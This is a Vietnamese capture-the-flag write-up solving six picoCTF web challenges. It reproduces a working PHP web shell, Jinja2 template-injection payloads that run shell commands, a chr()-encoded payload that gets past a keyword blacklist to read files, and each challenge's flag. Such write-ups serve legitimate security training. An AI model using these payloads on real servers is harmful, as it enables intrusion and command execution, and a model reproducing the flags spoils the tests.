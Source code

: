 # Cookie Monster Secret Recipe, head-dump, n0s4n1ty 1, SSTI1, 3v@l, Pachinko

# Cookie Monster Secret Recipe
![image](https://github.com/user-attachments/assets/8dc2b4ac-a447-475f-9119-0da6cbcdb178)

- Đề bài nhắc đến việc cookie được giấu ở đâu đó trên website, nghĩ ngay đến việc vào phần cookie trong inspect element trước khi nhấn đăng nhập sẽ không có gì

![image](https://github.com/user-attachments/assets/ffdcb526-50a9-405d-ad87-9b4588325b1a)

- Nhập tk, mk linh tinh vào và value của phần cookie sẽ hiện ra một đoạn mã base64, đó là flag

![image](https://github.com/user-attachments/assets/a54f2698-8deb-4ef6-b14d-a561cabc1b52)

`picoCTF{c00k1e_m0nster_l0ves_c00kies_AC8FCD75}`

# head-dump
![image](https://github.com/user-attachments/assets/5404768f-6217-4ef8-ba16-f8e1eefc7fd8)

- Bài có nhắc đến API documentation, và nếu lướt qua phần source của web ta thấy một đường dẫn `http://verbal-sleep.picoctf.net:60220/api-docs/`, và dựa vào tên bài tải về phần get headdump file `heapdump-1742199561569.heapsnapshot`

![image](https://github.com/user-attachments/assets/6aad8457-ad03-4162-9250-50e4636b2fc9)

- String ra flag

![image](https://github.com/user-attachments/assets/45d1b318-a45f-4aaa-98b6-7e233e5861d3)

`picoCTF{Pat!3nt_15_Th3_K3y_388d10f7}`

# n0s4n1ty 1
![image](https://github.com/user-attachments/assets/bcace112-b427-4372-bf36-d3b1b647423d)

- Qua đề bài, xem web và đọc hint1: File upload was not sanitized, ta biết được rằng có thể upload mọi file lên trên web này và file sẽ được lưu vào `/uploads/xxx`, vậy flag sẽ được lưu trữ ở đâu đó trong server, nếu muốn tìm được và đọc `flag.txt` ta phải có cách để thực hiện lệnh trên server
- Để đạt được điều đó cần upload một file `.php` sau đó thực hiện các lệnh với superuser

``` php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```
- Vào `http://standard-pizzas.picoctf.net:52325/uploads/hi.php` và tìm file `flag.txt` trong thư mục `/root` `sudo ls -la /root` và đọc nó

![image](https://github.com/user-attachments/assets/e8c95f69-d6ca-4ec5-861e-384125480f55)

![image](https://github.com/user-attachments/assets/bba86826-f315-43a7-b334-1937f287a4e4)

`picoCTF{wh47_c4n_u_d0_wPHP_5f3c22c0}`

# SSTI1
![image](https://github.com/user-attachments/assets/821c1201-4a1b-4522-b23f-edc9b35b3626)

- Đề bài đã gợi ý khá rõ rằng lỗ hổng ở đây sẽ là SSTI vậy nên ta chỉ cần xác định server này đang sử dụng template engine là gì, sau đó thực hiện lệnh để đọc flag trên server
- Thử `{{7*7}}` và server announce 49 vậy là server đang sử dụng Jinja2
- Sau đó e nhờ chatgpt viết payload SSTI
- `{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls /').read() }}` để list các thư mục trong server, thấy một thư mục có tên `challenge`
- `{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls -la /challenge').read() }}` để xem thư mục `challenge` thấy file `flag`
- `{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat /challenge/flag').read() }}` để đọc `flag`

![image](https://github.com/user-attachments/assets/bb83f8ba-59f1-4090-9be6-a5d73d68a0bd)

`picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_df9a00a0}`

# 3v@l
![image](https://github.com/user-attachments/assets/9e33e61c-4abf-418a-9b78-9df937b5927d)

- Cái web tính số nợ này sử dụng `eval()` để tính toán và tạo ra lỗ hổng, nhưng nếu đọc source code của web ta biết được nó chặn gần như hầu hết mọi lệnh, và các cách encode chữ cái để bypass blacklist  = regex
```
Secure python_flask eval execution by 
        1.blocking malcious keyword like os,eval,exec,bind,connect,python,socket,ls,cat,shell,bind
        2.Implementing regex: r'0x[0-9A-Fa-f]+|\\u[0-9A-Fa-f]{4}|%[0-9A-Fa-f]{2}|\.[A-Za-z0-9]{1,3}\b|[\\\/]|\.\.'
```
- Cái blacklist này chặn Hex, Unicode, URL encoding; chặn tìm mở rộng file(.exe,...), chặn sử dụng "\" và "/", chặn sử dụng ".."
- Nhiệm vụ của cta ở đây là tìm cách để bypass các blacklist trên để đọc file `/flag.txt`
- Sau khi tìm hiểu thấy được cái black list chưa chặn lệnh `chr()` vậy nên ta có thể sử dụng `chr()` từng kí tự một và đọc `/flag.txt`
- Ví dụ nhập `chr(104) + chr(101) + chr(108) + chr(108) + chr(111)`
![image](https://github.com/user-attachments/assets/5626869e-0b11-465d-95cc-aade1b0c4786)
- Đến đây e lại nhờ chatgpt viết payload để đọc file
``` py
getattr(
    __import__(chr(111) + chr(115)), 
    chr(112) + chr(111) + chr(112) + chr(101) + chr(110)
)(
    chr(99) + chr(97) + chr(116) + chr(32) + chr(47) + chr(102) + chr(108) + chr(97) + chr(103) + chr(46) + chr(116) + chr(120) + chr(116)
).read()
```
- Dịch ra là:
``` py
getattr(__import__("os"),"popen")("cat /flag.txt").read()  
```
![image](https://github.com/user-attachments/assets/cfd50c20-6c67-49e5-9d87-63b12cd3dcde)

`picoCTF{D0nt_Use_Unsecure_f@nctions0efe84e3}`

# Pachinko
- Bài này e thấy mng trên discord bảo chỉ cần spam `Submit circute` và f5 ra flag nên làm theo và ra thật 🐧
- Cho vào repeater và spam send đến khi ra flag

![image](https://github.com/user-attachments/assets/f7ffacc6-a0b7-42ef-ade9-e4ae7ba3da43)

`picoCTF{p4ch1nk0_f146_0n3_e947b9d7}`
